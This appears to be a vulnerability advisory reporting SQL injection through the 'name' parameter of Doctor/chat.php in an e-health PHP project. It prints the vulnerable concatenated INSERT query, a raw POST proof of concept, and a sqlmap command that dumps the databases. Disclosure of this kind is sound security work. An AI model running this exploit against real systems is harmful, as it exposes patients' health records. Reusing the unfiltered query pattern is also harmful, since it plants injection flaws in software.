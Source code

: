 # E-Health Care System IN PHP has sql injection vulnerability via name parameter in chat.php.

## supplier
https://code-projects.org/e-health-care-system-in-php-css-js-and-mysql-free-download/
## Vulnerability file
Doctor/chat.php and name parameters
## describe
There are unrestricted SQL injection attacks in the E-Health Care System. Controllable parameters: name .

In chat.php, there are no filter parameters, and there is no restriction on the execution of concatenated SQL statements, resulting in SQL injection vulnerabilities. You can obtain sensitive information from the database

## code analysis
The $name parameters of the chat.php are not filtered and concatenated into the SQL statement for execution when attacker is not logining.

![image-20241104132441881](https://github.com/user-attachments/assets/ba8c4e50-7184-4c42-999e-441734fe7b88)

```
  <?php
	if (isset($_POST['submit'])) {
	$name = $_POST['name'];
	$message = $_POST['message'];
		$query ="INSERT INTO chat ( name , message) values ('$name' , '$message')";
		$run =$db->query($query);
		if($run){
		echo" <embed loop='false' src='chat.wav' hidden= 'true' autoplay='true' />";
		}
	}
	?>
```

## POC

```
POST /Doctor/chat.php HTTP/1.1
Host: healthcare
Content-Length: 36
Cache-Control: max-age=0
Origin: http://healthcare
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36 Edg/130.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://healthcare/Doctor/chat.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

name=1*&message=1&submit=Send+Message
```

save it as 1.txt

```
python sqlmap.py -r 1.txt --level 3 --risk 2 --dbs
```

Get the database_name: healthcare， and get all dbs.

![image-20241104132619664](https://github.com/user-attachments/assets/cc0243b0-f6d2-402e-b999-c485b9492ca1)

![image-20241103231338743](https://github.com/user-attachments/assets/c5c14b93-cdd7-47be-b65f-913e1ba78f5e)
